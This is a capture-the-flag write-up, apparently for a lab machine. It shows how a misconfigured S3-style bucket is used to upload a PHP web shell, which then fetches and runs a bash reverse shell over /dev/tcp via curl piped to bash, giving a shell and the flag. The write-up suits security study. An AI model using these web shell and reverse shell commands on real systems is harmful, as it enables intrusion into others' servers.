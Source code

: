 # Exploiting an Amazon S3 Bucket for a Reverse Shell

## Introduction
This guide covers the process of **enumerating, exploiting, and gaining a reverse shell** on a system using an **Amazon S3 bucket**. By leveraging **AWS misconfigurations**, we can upload a web shell and execute commands remotely to gain shell access.

## Reconnaissance
### Scanning the Target with Nmap
```bash
nmap -sV -A 10.129.99.11
```
#### Key Findings:
- **SSH (22/tcp) running OpenSSH 7.6p1**
- **HTTP (80/tcp) running Apache 2.4.29**
- Target OS: **Linux Kernel 5.X**

### Virtual Host Enumeration with Gobuster
```bash
gobuster vhost -u http://thetoppers.htb/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain
```
#### Discovered Subdomains:
- `s3.thetoppers.htb`
- `gc._msdcs.thetoppers.htb`

Upon visiting `http://s3.thetoppers.htb/`, the response returned:
```json
{"status": "running"}
```
This suggests an **Amazon S3 bucket hosting content**.

---

## Exploitation: AWS S3 Misconfiguration
### Configuring AWS CLI to Interact with the Bucket
```bash
aws configure
```
Enter temporary credentials (placeholders used):
```bash
AWS Access Key ID [None]: temp
AWS Secret Access Key [None]: temp
Default region name [None]: temp
Default output format [None]: temp
```

### Listing Available Buckets
```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls
```
#### Found Bucket:
```
2025-02-10 12:05:02 thetoppers.htb
```

### Exploring the Contents of the S3 Bucket
```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```
#### Retrieved Files:
```
PRE images/
2025-02-10 12:05:02  0 .htaccess
2025-02-10 12:05:02  11952 index.php
```

### Uploading a Web Shell
To execute remote commands, we create and upload a simple PHP shell:
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```
Verify the upload:
```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```
```
PRE images/
2025-02-10 12:05:02  0 .htaccess
2025-02-10 12:05:02  11952 index.php
2025-02-10 14:30:15  31 shell.php
```

---

## Gaining a Reverse Shell
### Setting Up a Netcat Listener
```bash
nc -nvlp 1337
```

### Preparing the Reverse Shell Script
```bash
echo "#!/bin/bash\nbash -i >& /dev/tcp/10.10.16.29/1337 0>&1" > shell.sh
python3 -m http.server 8000
```

### Triggering the Reverse Shell
Accessing the uploaded PHP shell:
```bash
http://thetoppers.htb/shell.php?cmd=curl%2010.10.16.29:8000/shell.sh|bash
```
#### Listener Output:
```
connect to [10.10.16.29] from (UNKNOWN) [10.129.99.11] 50664
bash: cannot set terminal process group (1486): Inappropriate ioctl for device
bash: no job control in this shell
```

### Confirming Access
```bash
whoami
ls -la
```
We have successfully obtained a shell with `www-data` privileges.

---

## Post-Exploitation
### Exploring the System
```bash
cd /var/www/html
ls
```
Discovered files:
```
images
index.php
shell.php
```
### Capturing the Flag
```bash
cd /var/www/
cat flag.txt
```
```
a980d99281a28d638ac68b9bf9453c2b
```

---

## Host Mapping
To ensure the target domain resolves correctly, modify `/etc/hosts`:
```bash
echo "10.129.99.11 s3.thetoppers.htb" | sudo tee -a /etc/hosts  
echo "10.129.99.11 gc._msdcs.thetoppers.htb" | sudo tee -a /etc/hosts  
echo "10.129.99.11 thetoppers.htb" | sudo tee -a /etc/hosts  
```

---

## Conclusion
This attack leveraged **Amazon S3 misconfigurations** to upload a **remote PHP shell**, which was used to execute commands and gain a **reverse shell**. Proper **S3 bucket permissions** and **server hardening** can prevent such exploits.

